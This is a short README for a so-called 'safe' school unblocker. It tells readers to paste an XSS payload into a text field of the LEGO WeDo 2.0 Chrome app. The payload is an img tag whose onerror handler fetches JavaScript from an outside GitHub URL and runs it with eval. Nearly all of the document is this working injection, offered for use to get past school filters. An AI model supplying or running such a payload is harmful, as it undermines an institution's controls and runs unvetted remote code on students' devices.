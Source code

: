 # Safe-Unblocker-For-School
This is a safe unblocker for school that uses LEGO Wedo 2.0 . The app uses your microphone, so make sure to turn that off if desired. Credits to @Blobby-Boi


Setup:


First, install WeDo 2.0 LEGO® Education from the Chrome Webstore.

Once you are in the project, click on the pencil in the top bar.

Then, click the green document button.

In the textbox, paste the following string:

 img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '

 At the beginning of the string, put a less than sign < 
 At the end of the string, type a greater than sign >

Paste the whole thing, not just the blue.

Unblocked!
